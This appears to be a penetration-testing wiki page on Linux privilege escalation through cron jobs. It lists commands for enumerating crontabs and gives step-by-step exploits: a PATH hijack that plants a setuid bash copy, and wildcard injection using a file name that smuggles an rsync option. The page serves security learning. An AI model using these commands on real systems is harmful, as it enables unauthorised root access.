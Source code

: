 # Cron Jobs

## Theory

Cron is a job scheduler in Unix-based operating systems. Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server.\
By default, Cron runs as root when executing _/etc/crontab_, so any commands or scripts that are called by the crontab will also run as root. It can be an intresting privelege escalation path.

## Practice

You may want to enumerate cron jobs with the following commands

```bash
#Print jobs with Crontab binary
crontab -l
crontab -l -u username

#Directly cat files
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"

#In /etc/ and subfolders
cat /etc/crontab
cat /etc/cron*/*

# In /var/spool
cat /var/spool/cron/*
cat /var/spool/cron/crontabs/*
```

### Cron Path&#x20;

{% tabs %}
{% tab title="Enumerate" %}
For example, inside _/etc/crontab_ you can find the PATH: `PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

We need to check if we have **permissions** to write on each path, if a the binary in the cron job is specified without the full command path, we&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>$ cat /etc/crontab
</strong>
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    overwrite.sh
</code></pre>
{% endtab %}

{% tab title="Exploit" %}
We need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/home/user`**, and its specified in the crontab PATH as in the example. We can create a payload in there.&#x20;

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

Then wait for the job to execute.

```bash
/tmp/bash -p
```
{% endtab %}
{% endtabs %}

### Wildcard Injection

{% tabs %}
{% tab title="Enumerate" %}
If a script executed by root has a **`*`** inside a command, you may be able to exploit it.&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>$ cat /etc/crontab
</strong>
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    rsync -a *.sh rsync://host.back/src/rbd
</code></pre>
{% endtab %}

{% tab title="Exploit" %}
In the previous case, we can exploit it like this

```bash
touch "-e sh myscript.sh"

echo '<PAYLOAD>' > myscript.sh
```

Read the following page for more wildcard exploitation tricks: [HERE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}
